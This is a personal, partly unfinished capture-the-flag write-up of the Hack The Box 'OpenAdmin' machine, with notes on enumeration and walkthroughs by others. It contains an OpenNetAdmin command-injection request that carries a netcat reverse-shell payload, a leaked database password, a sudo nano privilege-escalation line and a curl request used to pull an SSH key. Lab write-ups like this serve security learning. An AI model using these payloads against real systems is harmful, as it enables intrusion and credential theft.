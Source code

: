 # Machine #[NUMBER] [NAME]  


## Nmap Results  
  <img src="https://nmap.org/images/nmap-logo-256x256.png">   

* Just a web service and ssh.



<br/><br/>

## Banner Grabbing of Services  
 * Didn't find much


<br/><br/>

## Searchsploit
  <img src="https://www.offensive-security.com/wp-content/uploads/2020/05/SearchSploit-1.png" width=400 height=200>   



<br/><br/>  

## Gobustering Stuff  

  <img src="https://cdn.akamai.steamstatic.com/steam/apps/1092880/capsule_616x353.jpg?t=1605640630" width=400 height=200>  

* In this path `http://10.129.170.143/artwork/` found a website.
* I will try and gobuster the previous path see what I get.

<br/><br/>


## Thinking Out Loud   

  <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQr4hzX6KoRN5PjPJjy8QC43K0T-CoXZHawDIxG4jCa9aMD1K8Vl3vhpG2a2OVbiy-i93c&usqp=CAU" width=200 height=200>  

* The root opens the default page for Apache.  
* In the website I found "Arcwork" I found a form that when the button is pressed in it it sends a post request but without the input which I think means it's as useful as a bag of chips to break the website.  
* The form in `/sierra` sends parameters in the post which means it might be exploitable in a way MAYBE. In this path `/sierra/contact_process.php` the post takes place.  
* Emails I found  
  * contact@sierracompany.com (In the sierra website).
  * hello@mydomain.com (Arcwork website).  
* In the last website `/music` I found something interesting when I pressed "login" it opened this url `http://10.129.170.143/ona/` which opened something weird called openNetAdmin which seems like it's obviously key to solving the machine.
* Found a dns domain. I'm gonna try and put it in hosts.
* OpenNetAdmin version ==> OpenNetAdmin - v18.1.1.
* I was able to login as "admin/admin" in the opennetadmin.
* It seems that the exploit I found for this version of openNetAdmin takes advantage of the "IP Calculator".  

xajax=window_submit&xajaxr=1643382750871&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.74%204444%20%3E%2Ftmp%2Ff&xajaxargs[]=ping%22%20%22http%3A%2F%2F10.129.170.143%2Fona%2F  

* Found a credential for the database 
```console
 'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!', // turns out this is jimmy's password
        'db_database' => 'ona_default',
        'db_debug' => false,
```

* Found another password for jimmy `Revealed` it was hashed with sha 512 and I was able to crack it easily anyway what do I need it for?  

* `/etc/sudoers.d/joanna:joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv`  


```
lrwxrwxrwx 1 root root 32 Nov 22  2019 /etc/apache2/sites-enabled/internal.conf -> ../sites-available/internal.conf                                                 
    ServerName internal.openadmin.htb
lrwxrwxrwx 1 root root 33 Nov 22  2019 /etc/apache2/sites-enabled/openadmin.conf -> ../sites-available/openadmin.conf                                               
        ServerName openadmin.htb
```  

* I was able to get joanna's key by executing this 
```console
curl -X POST -F 'username=jimmy' -F 'password=Revealed' -F 'login=' http://localhost:52846/main.php
```
But I'm not able to use the passphrase yettt which is frustrating and a reverse shell is not working.

<br/><br/>



## How Did I Solve the Machine 

   <img src="https://images.lifesizecustomcutouts.com/image/cache/catalog/febProds21/SP000081-500x500.png" width=200 height=200>   


     

## Where I Got Stuck?  

   

## What Did I learn from this Machine?  

* OpenNetAdmin  
  <blockquote>
  OpenNetAdmin is a Network Management application that provides a database of managed inventory of IPs, subnets, and hosts in a network with a centralized AJAX web interface. The application is an Opensource written in PHP; you can view the source code on GitHub “ONA Project.”
  </blockquote>



## Writeups   

### ippsec  

* So first he tried to look for a "robot.txt" file because it could lead to something if it existed.
* He tried to check if the backend was php by trying "index.php" if "index.html" existed.
* Looked at the source code of the websites he found to see if he can find the software that is used to make the website.
* He checked the source of the page to check what is the type of the content management system that is being used.  
* Carousel is a popular wordpress plugin.  
* He made an HTML page with `python -m http.server 80` to run the exploit that is expecting us to "make an html page".  
* Don't jump straight into a dangerous command with command injection, try a simple, useless one first.  
* We can test for a firewall if we `nc [MY IP] [PORT]` we can check if a firewall is blocking us.   

### 0xdf's Writeup  

* He used a webshell and then

<!-- tagsss -->